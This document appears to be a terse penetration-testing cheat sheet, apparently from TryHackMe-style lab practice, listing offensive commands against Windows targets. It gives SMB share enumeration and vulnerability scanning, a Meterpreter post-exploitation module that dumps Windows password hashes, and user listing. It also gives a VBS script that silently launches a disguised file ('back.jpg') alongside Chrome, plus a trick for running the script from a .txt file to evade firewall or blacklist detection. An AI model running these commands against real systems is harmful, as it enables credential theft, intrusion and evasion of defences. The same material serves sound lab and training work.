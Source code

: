 For SMB

    smbclient -L //ip/
  
`this shows the directory on smb listening`

    smbclient //ip/{directory from above command}
  
For SMB Exploit 

    nmap -sC -sV -A ip --script=smb-vuln*
  
hashdump of windows

`inside the meterpreter shell` 

    run post/windows/gather/hashdump

Searching Files or Flag in windows machine

    dir flag*.txt /s /p
Fatching the usernames of the machine

    net users
    
VBS script 

```
Set WshShell = CreateObject("WScript.Shell")
WshShell.Run chr(34) & "D:\back.jpg" & Chr(34), 0
WshShell.Run chr(34) & "C:\Program Files\Google\Chrome\Application\chrome.exe" & Chr(34), 0
Set WshShell = Nothing
```
    save it as file.vbs , in case firewall detects or blacklist vbs file you can save it as txt file and still run it as vbs with bellow command 
```wscript /e:VBScript c:\Users\thm\Desktop\payload.txt
```


